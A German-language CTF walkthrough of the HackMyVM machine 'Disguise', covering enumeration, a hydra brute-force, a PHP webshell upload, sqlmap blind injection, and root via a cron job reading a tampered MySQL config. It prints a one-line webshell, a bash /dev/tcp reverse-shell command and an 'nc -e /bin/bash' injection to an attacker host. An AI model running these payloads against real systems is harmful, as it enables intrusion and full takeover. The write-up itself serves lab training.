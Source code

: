 # Disguise - HackMyVM Lösungsweg

![Disguise VM Icon](Disguise.png)

Dieses Repository enthält einen Lösungsweg (Walkthrough) für die HackMyVM-Maschine "Disguise".

## Details zur Maschine & zum Writeup

*   **VM-Name:** Disguise
*   **VM-Autor:** DarkSpirit
*   **Plattform:** HackMyVM
*   **Schwierigkeitsgrad (laut Writeup):** Schwer (Hard)
*   **Link zur VM:** [https://hackmyvm.eu/machines/machine.php?vm=Disguise](https://hackmyvm.eu/machines/machine.php?vm=Disguise)
*   **Autor des Writeups:** DarkSpirit
*   **Original-Link zum Writeup:** [https://alientec1908.github.io/Disguise_HackMyVM_Hard/](https://alientec1908.github.io/Disguise_HackMyVM_Hard/)
*   **Datum des Originalberichts:** 02. Mai 2025

## Verwendete Tools (Auswahl)

*   `arp-scan`
*   `nmap`
*   `nikto`
*   `curl`
*   `jq`
*   `gobuster`
*   `wfuzz`
*   `wpscan`
*   `hydra`
*   `mysql` (Client)
*   `sqlmap`
*   `nc` (netcat)
*   `python3` (insb. `http.server`, `pty.spawn`)
*   `wget`
*   `chmod`
*   `find`
*   `pspy64`
*   `crunch`
*   `suForce`
*   Standard Linux-Befehle (`ls`, `cat`, `sudo`, `echo`, `export`, etc.)

## Zusammenfassung des Lösungswegs

Das Folgende ist eine gekürzte Version der Schritte, die unternommen wurden, um die Maschine zu kompromittieren, basierend auf dem bereitgestellten Writeup.

### 1. Reconnaissance (Aufklärung)

*   Die Ziel-IP `192.168.2.189` wurde mittels `arp-scan` identifiziert.
*   Ein `nmap`-Scan ergab offene Ports:
    *   **Port 22/tcp (SSH):** OpenSSH 7.9p1 Debian 10+deb10u4.
    *   **Port 80/tcp (HTTP):** Apache httpd 2.4.59 (Debian). Nmap identifizierte die Seite als **WordPress 6.7.2** (später als 6.8.1 von WPScan) unter `disguise.hmv`.
*   Die Hostnamen `disguise.hmv` und später `dark.disguise.hmv` wurden der IP `192.168.2.189` in der `/etc/hosts`-Datei des Angreifers zugeordnet.

### 2. Web Enumeration (Web-Aufklärung)

#### Hauptdomain: `disguise.hmv` (WordPress)
*   `nikto` fand Standard-WordPress-Pfade und fehlende Security-Header.
*   Die `robots.txt` zeigte `/wp-admin/`.
*   Über die WordPress REST API (`/wp-json/wp/v2/users/1`) wurde der Benutzer **"simpleAdmin"** enumeriert.
*   `wpscan` identifizierte WordPress-Versionen, Plugins und Themes mit potenziellen Schwachstellen (z.B. in "akismet", "newsblogger", "newscrunch"). Insbesondere "newsblogger" und "newscrunch" zeigten "Authenticated Arbitrary File Upload"-Schwachstellen.

#### Subdomain: `dark.disguise.hmv` (Benutzerdefinierte PHP-Anwendung)
*   `wfuzz` wurde verwendet, um Subdomains zu finden und entdeckte **`dark.disguise.hmv`**.
*   `gobuster` auf `dark.disguise.hmv` fand eine andere Anwendungsstruktur mit `login.php`, `register.php`, `config.php` (Size 0), `functions.php` (Size 0) und einem `/manager/`-Verzeichnis.
*   `nikto` auf `dark.disguise.hmv` meldete:
    *   Fehlende Security-Header.
    *   `PHPSESSID`-Cookie ohne `HttpOnly`-Flag.
    *   Einen verdächtigen Pfad `/database.tar.bz2` (der manuell geprüft werden musste).
    *   Hinweis auf `config.php` als potenzielle Quelle für Datenbankzugangsdaten.
*   Im Quelltext von `dark.disguise.hmv/index.php` wurde ein `image_handler.php?id=X` Endpunkt entdeckt, der auf eine mögliche LFI-Schwachstelle hindeutete.
*   Ein gültiges `dark_session`-Cookie wurde (vermutlich durch vorherigen Login oder Exploit) erlangt, um auf `/profile.php` zuzugreifen.

### 3. Initial Access als `www-data` (auf `dark.disguise.hmv`)

1.  **Passwort für `simpleAdmin` auf `dark.disguise.hmv` gefunden:**
    *   Mit `hydra` wurde ein Brute-Force-Angriff auf `http://dark.disguise.hmv/login.php` durchgeführt.
    *   Passwort für `simpleAdmin` gefunden: `Str0ngPassw0d1@@@`.
2.  **PHP-Webshell-Upload:**
    *   Nach dem Login in den Admin-Bereich (`http://dark.disguise.hmv/manager/`) wurde eine PHP-Webshell (z.B. `<?php system($_GET['cmd']); ?>`) über die Funktion "Produkt hinzufügen" hochgeladen.
3.  **Pfad der Webshell via SQL-Injection ermittelt:**
    *   Mit `sqlmap` wurde eine zeitbasierte Blind-SQL-Injection-Schwachstelle im Parameter `description` der `add_product.php`-Funktion (unter Verwendung des `dark_session`-Cookies) ausgenutzt.
    *   Die SQL-Abfrage `SELECT image FROM dark_shop.products ORDER BY id DESC LIMIT 1` wurde ausgeführt, um den Pfad zur hochgeladenen Webshell zu extrahieren (z.B. `images/c76bf961f084a3c713329bd86ef761ba.php`).
4.  **Reverse Shell als `www-data` etabliert:**
    *   Ein Netcat-Listener wurde auf der Angreifer-Maschine gestartet (z.B. `nc -lvnp 4444`).
    *   Die Webshell wurde via `curl` aufgerufen und ein Bash-Reverse-Shell-Payload übergeben:
        ```bash
        curl "http://dark.disguise.hmv/WEBSHELL_PFAD.php?cmd=bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/ANGREIFER_IP/4444%200%3E%261'"
        ```
    *   Erfolgreiche Verbindung und Shell als Benutzer `www-data`.

### 4. Privilege Escalation (Privilegienerweiterung zu `root`)

1.  **Enumeration als `www-data`:**
    *   Im Home-Verzeichnis `/home/darksoul/` wurde die Datei `config.ini` gefunden, die MySQL-Zugangsdaten enthielt: `dark_db_admin:Str0ngPassw0d1***` für die Datenbank `dark_shop`.
    *   Ein Python-Skript `/opt/query.py` wurde gefunden, das diese Datenbank abfragt.
    *   Mit `pspy64` wurde ein Cronjob identifiziert, der `/opt/query.py` als `root` unter Verwendung von `/home/darksoul/config.ini` ausführt.
2.  **Kompromittierung des Benutzers `darksoul`:**
    *   Mit `crunch` wurde eine gezielte Wortliste basierend auf dem Muster des `simpleAdmin`-Passworts erstellt.
    *   Mit dem Tool `suForce` wurde das Passwort für den Systembenutzer `darksoul` als `Str0ngPassw0d1???` ermittelt.
3.  **Ausnutzung des Root-Cronjobs (MySQL Connector Exploit):**
    *   Als Benutzer `darksoul` (nach `su darksoul` mit dem gefundenen Passwort) wurde die Datei `/home/darksoul/config.ini` manipuliert.
    *   Die originale `config.ini` (Eigentümer `root`) wurde gelöscht und eine neue `config.ini` (Eigentümer `darksoul`) mit den originalen Datenbankparametern und einer zusätzlichen bösartigen Zeile erstellt:
        ```ini
        [client]
        user = dark_db_admin
        password = Str0ngPassw0d1***
        host = localhost
        database = dark_shop
        port = int(3306)
        allow_local_infile=__import__('os').system('nc -e /bin/bash ANGREIFER_IP 4448')
        ```
    *   Ein Netcat-Listener wurde auf der Angreifer-Maschine auf Port `4448` gestartet.
    *   Als der Cronjob das nächste Mal `/opt/query.py` als `root` ausführte und die manipulierte `config.ini` las, interpretierte `mysql.connector` die `allow_local_infile`-Option und führte den eingebetteten Python-Code (`os.system(...)`) als `root` aus.
    *   Dies baute eine Reverse Shell zum Angreifer auf und lieferte Root-Rechte.

### 5. Flags

*   **User-Flag (`/home/darksoul/user.txt`):**
    ```
    hmv{hiddenflag}
    ```
*   **Root-Flag (`/root/root.txt`):**
    ```
    hmv{CVE-2025-21548} 
    ```
    *(Der Name der Root-Flag bezieht sich auf die (fiktive) CVE, die im Zusammenhang mit der `allow_local_infile`-Schwachstelle im `mysql.connector` steht.)*

## Haftungsausschluss (Disclaimer)

Dieser Lösungsweg dient zu Bildungszwecken und zur Dokumentation der Lösung für die "Disguise" HackMyVM-Maschine. Die Informationen sollten nur in ethischen und legalen Kontexten verwendet werden, wie z.B. bei CTFs und autorisierten Penetrationstests.

